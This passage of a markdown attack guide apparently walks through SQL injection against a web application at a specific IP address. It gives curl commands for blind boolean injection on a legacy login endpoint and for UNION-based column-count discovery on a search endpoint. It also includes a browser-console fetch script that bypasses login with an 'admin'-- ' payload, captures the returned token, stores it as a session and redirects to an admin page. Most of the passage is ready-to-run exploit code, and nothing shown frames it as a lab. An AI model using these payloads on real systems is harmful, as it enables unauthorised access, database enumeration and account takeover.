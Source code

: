 ```bash
# Test if first character of database name is 'w'
curl -X POST http://174.138.71.77/api/legacy-login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin'\'' AND SUBSTRING(database(),1,1)='\''w'\''-- ","password":"x"}'

# If login succeeds = true, if fails = false
```

---

## 🧪 Column Count Discovery

```bash
# Test with different numbers of NULLs until it works
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT NULL-- "}'

# Keep adding NULLs until no error
curl -X POST http://174.138.71.77/api/search \
  -H "Content-Type: application/json" \
  -d '{"query":"test'\'' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- "}'
# ✅ 7 columns = success!
```

---

## 🌐 Browser-Based Exploitation

### JavaScript Console Attack

```javascript
// Open browser console (F12) on http://174.138.71.77

// SQL Injection via fetch
fetch('/api/legacy-login', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    username: "admin'-- ",
    password: "anything"
  })
})
.then(r => r.json())
.then(data => {
  console.log('✅ SQL Injection Success!');
  console.log('Token:', data.token);
  console.log('User:', data.user);
  
  // Store token
  localStorage.setItem('token', data.token);
  localStorage.setItem('user', JSON.stringify(data.user));
  
  // Reload to use new session
  location.href = '/wcorp/admin';
});
```

---